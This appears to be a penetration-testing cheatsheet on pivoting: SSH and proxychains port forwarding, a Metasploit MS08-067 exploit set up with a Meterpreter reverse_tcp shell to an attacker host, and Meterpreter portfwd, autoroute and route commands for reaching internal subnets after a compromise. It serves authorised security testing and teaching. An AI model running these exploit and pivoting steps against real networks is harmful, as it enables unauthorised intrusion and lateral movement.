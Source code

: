 ## SSH Pivoting Cheatsheet[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-pivoting-cheatsheet)

### SSH Port Forwarding[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-port-forwarding)

COMMAND

DESCRIPTION

`ssh -L 9999:10.0.2.2:445 user@192.168.2.250`

Port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250

### SSH Port Forwarding with Proxychains[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-port-forwarding-with-proxychains)

COMMAND

DESCRIPTION

`ssh -D 127.0.0.1:9050 root@192.168.2.250`

Dynamically allows all port forwards to the subnets availble on the target.

##### Dynamic Proxychain Warning

Dynamic Proxychain SSH port forwarding does not work with nmap and metasploits meterpreter shells won't spawn.

If you attempt to spawn a shell via Meterpreter, you’ll get an error similar to the following:

```bash
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
```

### Using Proxychain port forwards[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#using-proxychain-port-forwards)

When using a Proxychain port forward, all commands need to be prefixed with the proxychain command, this instructs the application traffic to route through the proxy.

Connecting to RDP via Proxychains Dynamic Port Forwarding

root:~# proxychains rdesktop TARGET-IP



## Configure Metasploit to use a SSH Pivot[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#configure-metasploit-to-use-a-ssh-pivot)

The following is an example of how to configure Metersploit to use a SSH portward. In this example port 9999 is forwarded to the target and the attacking machine has an IP address of 192.168.2.100:

```bash
Setup the port forward (instructions above), then configure msfconsole as follows (using MS08_067 in this example).

 msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
   RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.2.100   yes       The listen address
    LPORT     443              yes       The listen port


 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
```

### Don’t use 127.0.0.1 with Metasploit[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#dont-use-127001-with-metasploit)

##### Update: You can now use 127.0.0.2

Other 127.0.0.0 addresses can also be used (`127.0.0.3`,`127.0.0.4` etc), but not `127.0.0.1`

The example above uses 0.0.0.0 **Not 127.0.0.1**, never use 127.0.0.1 with Metasploit or you’ll get the following error after you attempt to do anything post exploit:

```bash
 exploit(ms08_067_netapi) > exploit

 [*] Started reverse handler on 192.168.14.183:443
 [*] Automatically detecting the target...
 [*] Fingerprint: Windows XP - Service Pack 3 - lang:English
 [*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
 [*] Attempting to trigger the vulnerability...
 [*] Sending stage (769536 bytes) to 192.168.15.252

msf meterpreter > getuid
 [-] Session manipulation failed: Validation failed: Address is reserved ["/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/validations.rb:56:in `save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/attribute_methods/dirty.rb:33:in `save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:264:in `block in save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:313:in `block in with_transaction_returning_status'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/database_statements.rb:192:in `transaction'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:208:in `transaction'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:311:in `with_transaction_returning_status'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:264:in `save!'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:377:in `block in report_host'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/connection_pool.rb:129:in `with_connection'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:323:in `report_host'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:2031:in `block in report_event'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/connection_pool.rb:129:in `with_connection'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:2025:in `report_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:222:in `report_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:331:in `session_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:408:in `block in on_session_output'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:407:in `each'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:407:in `on_session_output'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:183:in `block in method_missing'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:181:in `each'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:181:in `method_missing'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/session_manager.rb:242:in `block in register'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:271:in `call'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:271:in `print_error'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:436:in `unknown_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:411:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/post/meterpreter/ui/console.rb:68:in `block in interact'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:190:in `call'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:190:in `run'", "/opt/metasploit/apps/pro/msf3/lib/rex/post/meterpreter/ui/console.rb:66:in `interact'", "/opt/metasploit/apps/pro/msf3/lib/msf/base/sessions/meterpreter.rb:396:in `_interact'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/interactive.rb:49:in `interact'", "/opt/metasploit/apps/pro/msf3/lib/msf/ui/console/command_dispatcher/core.rb:1745:in `cmd_sessions'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:427:in `run_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:389:in `block in run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `each'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/msf/ui/console/command_dispatcher/exploit.rb:142:in `cmd_exploit'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:427:in `run_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:389:in `block in run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `each'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:200:in `run'", "/opt/metasploit/apps/pro/msf3/msfconsole:148:in `<main>'"]
```

## Meterpreter Pivoting Cheatsheet[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#meterpreter-pivoting-cheatsheet)

Assuming you’ve compromised the target machine and have a meterpreter shell, you can pivot through it by setting up a **meterpreter port forward**.

COMMAND

DESCRIPTION

`portfwd add –l 3389 –p 3389 –r target-host`

Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell

`portfwd delete –l 3389 –p 3389 –r target-host`

Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell

`portfwd flush`

Meterpreter delete all port forwards

`portfwd list`

Meterpreter list active port forwards

`run autoroute -s 192.168.15.0/24`

Use Meterpreters autoroute script to add the route for specified subnet `192.168.15.0`

`run autoroute -p`

Meterpreter list all active routes

`route`

Meterpreter view available networks the compromised host can access

`route add 192.168.14.0 255.255.255.0 3`

Meterpreter add route for 192.168.14.0/24 via Session 3.

`route delete 192.168.14.0 255.255.255.0 3`

Meterpreter delete route for 192.168.14.0/24 via Session 3.

`route flush`

Meterpreter delete all routes

##### Meterpreter Port Forwards are flakey

Meterpreter port forwards can be a bit flakey, also the meterpreter session needs to be remain open.

In order to connect to the compromised machine you would run:

Connect to RDP via Meterpreter Port Forward

root:~# rdesktop 127.0.0.1



## Pivoting Example Diagrams[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#pivoting-example-diagrams)

Pivoting can be a bit hard to understand on paper, so here are some diagrams for clarification with the associated commands.


### Starting Point[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#starting-point)

You’ll need to have access to a compromised machine on the target network, depending on the compromised machines configuration you may or may not need root.



### Routing Traffic to the Same Subnet[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#routing-traffic-to-the-same-subnet)


####Example commands

##### SSH Pivoting using Proxychains[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-pivoting-using-proxychains)

Dynamic SSH Pivoting Command using proxy chains

root:~# ssh -D 127.0.0.1:9050 root@192.168.2.2



You could then connect to Target 2’s RDP server using:

Connecting to RDP via Proxychains Dynamic Port Forwarding

root:~# proxychains rdesktop 192.168.2.3



##### SSH Port Forwarding Command[](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-port-forwarding-command)

RDP SSH Port Forwarding

root:~# ssh -L 3389:192.168.2.3:3389 user@192.168.2.2



You could then connect to Target 2’s RDP server using:

Connecting to RDP via SSH Port Forwarding

root:~# rdesktop 127.0.0.1

